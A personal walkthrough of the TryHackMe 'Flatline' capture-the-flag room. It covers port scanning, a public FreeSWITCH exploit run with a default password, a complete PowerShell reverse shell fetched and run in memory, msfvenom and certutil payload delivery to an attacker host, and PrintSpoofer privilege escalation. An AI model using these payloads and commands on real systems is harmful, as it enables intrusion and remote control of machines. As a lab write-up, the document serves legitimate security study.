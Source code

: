 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Flatline
# DESCRIPTION       . How low are your morals?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/flatline
```

```
sudo nmap -sSVC -T5 -Pn -p- 10.10.118.70 -oN flatline
```

- I've used `-Pn` since it appeared as down and the ping wasn't working against the target. 
- The server was up for ~15 minutes, so I assumed it was fully functional by now.

```
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
|_ssl-date: 2024-02-12T18:24:43+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2024-02-11T18:08:47
|_Not valid after:  2024-08-12T18:08:47
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-12T18:24:39+00:00

8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### PORT 3389

- I started digging deeper into RDP since the port 3389 was open.

```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -Pn -p 3389 -T5 10.10.118.70
```

```
PORT     STAT[[Tech_Supp0rt 1]]E SERVICE
3389/tcp open  ms-wbt-server
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-12T18:27:13+00:00
```

- However, I had no desire to try bruteforcing for now and I didn't knew what else to do with RDP.

#### PORT 8021 

- After some googling around, I found out that _FreeSWITCH is a free and open-source telephony software for real-time communication protocols using audio, video, text and other forms of media_. 

- I tried connecting with `netcat` to this service and I needed authentication.

```
nc 10.10.118.70 8021
Content-Type: auth/request
```

- After some more googling around, I found out the default password and an exploit written for this [here](https://www.exploit-db.com/exploits/47799).

```
python3 47799.py 10.10.118.70 whoami

Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

- If we have enough privileges, technically we could add a new account to the system and then RDP to it.

- However, I've chosen to create a reverse shell and execute it from memory, since this would be harder to detect in a real life scenario. A new added user to the system pops up :) 

- To do this, I've saved the following Powershell reverse shell in a file called `shell.ps1`.

```
$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Then, using the exploit above, I've downloaded it from my python webserver & executed it in memory.

```
(New-Object Net.WebClient).DownloadString('http://IP:PORT/shell.ps1')
```

**NOTE**: Make sure the listener is active, as the reverse shell will get executed automatically after being downloaded.

```
Connection received on 10.10.118.70 49987
whoami
win-eom4pk0578n\nekrotic
PS C:\Program Files\FreeSWITCH> 
```

- Both flags are in `C:\Users\Nekrotic\Desktop`, called `user.txt` and `root.txt`.

- We can read only `user.txt`.

#### PRIVILEGE ESCALATION

```
PS C:\Program Files\FreeSWITCH> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

- We see that we have the `SeImpersonatePrivilege` enabled. 
- This means that we can impersonate any client after we're authenticated (whatever, we skipped the "authentication" part).

- I've used this [PrintSpooler.exe](https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe) to escalate privileges

```
PrintSpoofer exploit that can be used to escalate service user permissions on Windows Server 2016, Server 2019, and Windows 10.

To escalate privileges, the service account must have SeImpersonate privileges. To execute:
```

- However, I couldn't make it work so I've assumed this is because of my unstable shell.

- So I've generated a new shell using msfvenom, hopefully that would be more stable.

```
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

- Then, I've transferred it using `certutil` since it was too big `>8192`, so it coudln't be downloaded by the `DownloadString` method.

```
python3 47799.py 10.10.118.70 "certutil -urlcache -split -f http://ATTACKER_IP:8000/shell.exe"
```

- Then, I've executed it using

```
python3 47799.py 10.10.118.70 shell.exe
```

- The listener was a simple `nc -nvlp 4444`.

- This shell was much more responsive and I was able to run the `PrintSpoofer.exe -i -c cmd` to escalate privileges.

```
C:\Program Files\FreeSWITCH> PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

- The last flag is in `C:\Users\Nekrotic\Desktop\root.txt`. 